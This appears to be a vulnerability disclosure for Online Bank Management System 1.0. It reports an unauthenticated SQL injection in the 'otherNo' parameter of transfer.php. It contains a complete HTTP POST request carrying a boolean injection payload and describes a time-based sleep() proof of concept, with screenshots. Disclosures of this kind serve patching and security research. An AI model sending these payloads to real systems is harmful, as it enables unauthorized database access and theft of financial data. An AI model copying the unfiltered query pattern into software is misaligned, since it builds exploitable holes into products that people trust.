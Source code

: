 # Online Bank Management System - transfer.php 'otherNo' Unauthorized SQL inject

#### Exploit Title: Online Bank Management System - transfer.php 'otherNo' Unauthorized SQL inject

#### Vendor Homepage: https://www.sourcecodester.com/php/15373/online-banking-management-system-php-free-source-code.html

#### Software Link:https://www.sourcecodester.com/download-code?nid=15373&title=Online+Bank+Management+System+in+PHP+Free+Source+Code

#### Version: Online Bank Management System 1.0

#### Tested on: phpstudy 2018

#### Description

The reason for the SQL injection vulnerability is that the website application does not verify the validity of the data submitted by the user to the server (type, length, business parameter validity, etc.), and does not effectively filter the data input by the user with special characters , so that the user's input is directly brought into the database for execution, which exceeds the expected result of the original design of the SQL statement, resulting in a SQL injection vulnerability.Online Bank Management System does not filter the content correctly at the " transfer.php 'otherNo'" parameter, resulting in the generation of SQL injection.

#### Payload used:

```
POST /SourceCodesterBank/transfer.php HTTP/1.1
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 61

otherNo=' or mid(user(),1,1)='r' -- &get=Get%2BAccount%2BInfo
```

#### Proof of Concept

First, we use delay injection sleep(0) to see that the loading time of the page is 4 seconds.

<img width="1247" height="726" alt="image" src="https://github.com/user-attachments/assets/00a34a4a-92f9-4e00-9d9e-1662b4b1e584" />

Then we delay sleep(5) for another 5 seconds, and the page loading becomes 9 seconds, which successfully proves that sleep(5) has been executed successfully.

<img width="1241" height="722" alt="image" src="https://github.com/user-attachments/assets/cd793e5a-90d1-48c8-a9be-3adf788bcf21" />






<img width="931" height="321" alt="image" src="https://github.com/user-attachments/assets/1521eaa6-2d77-4306-b2bd-84c0e568683e" />
